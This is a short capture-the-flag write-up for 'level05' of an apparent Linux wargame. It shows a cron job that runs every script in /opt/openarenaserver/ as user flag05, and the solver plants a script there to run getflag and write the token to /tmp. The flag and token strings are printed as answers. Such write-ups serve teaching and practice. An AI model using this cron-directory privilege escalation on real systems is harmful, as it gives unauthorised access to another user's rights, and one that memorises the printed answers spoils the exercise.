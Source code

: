 ## FLAG: `ne2searoevaevoem4ov4ar8ap`

```
    You have new mail.
```

> cat /var/mail/level05
```
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
## `/usr/sbin/openarenaserver` running every 2 minutes for flag05 ?

> cat /usr/sbin/openarenaserver
```
    #!/bin/sh

    for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
    done
```
## this script run every bash files in `/opt/openarenaserver/` folder

## We create our script which execute getflag command and put the result in a readable file
> vi /opt/openarenaserver/getflag.sh
```
    #!/bin/bash
    getflag > /tmp/05_flag
```
> cat /tmp/05_flag
```
    Check flag.Here is your token : viuaaale9huek52boumoomioc
```